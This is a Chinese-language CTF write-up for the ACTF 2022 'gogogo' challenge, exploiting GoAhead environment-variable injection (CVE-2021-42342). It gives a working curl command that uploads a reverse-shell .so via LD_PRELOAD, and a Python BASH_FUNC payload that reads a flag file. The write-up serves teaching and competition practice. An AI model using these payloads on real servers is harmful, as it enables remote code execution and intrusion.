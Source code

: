 ## 题目介绍

[附件](/CTF_ATTACHMENTS/2022/ACTF-gogogo.zip)

```
ACTF warmup
http://123.60.84.229:10218
docker retstart every 10 minutes!
```

考点：
- LD_PRELOAD
- CVE漏洞

## Writeup

GoAhead环境变量注入 cve-2021-42342 参考p牛的文章
> https://www.leavesongs.com/PENETRATION/goahead-en-injection-cve-2021-42342.html
> https://github.com/Mr-xn/CVE-2021-42342，

1、编译好上述库里的反弹代码，注意编译的时候加-s（p牛文章有提到，可以缩小.so文件体积）

2、然后触发漏洞：`curl -F "LD_PRELOAD=/proc/self/fd/0" -F data=@exp.so http://123.60.84.229:10218/cgi-bin/hello`

3、爆破`/proc/self/fd/$$`反弹shell

**另一种解法**：

su战队的[Writeup](https://mp.weixin.qq.com/s/DCxrEmkYzFdUa2YHOdnD7g)用的`BASH_FUNC`

```python
import requests

payload = {
    "BASH_FUNC_env%%":(None,"() { cat /flag; exit; }"),
}

r = requests.post("http://123.60.84.229:10218/cgi-bin/hello",files=payload)
print(r.text)
```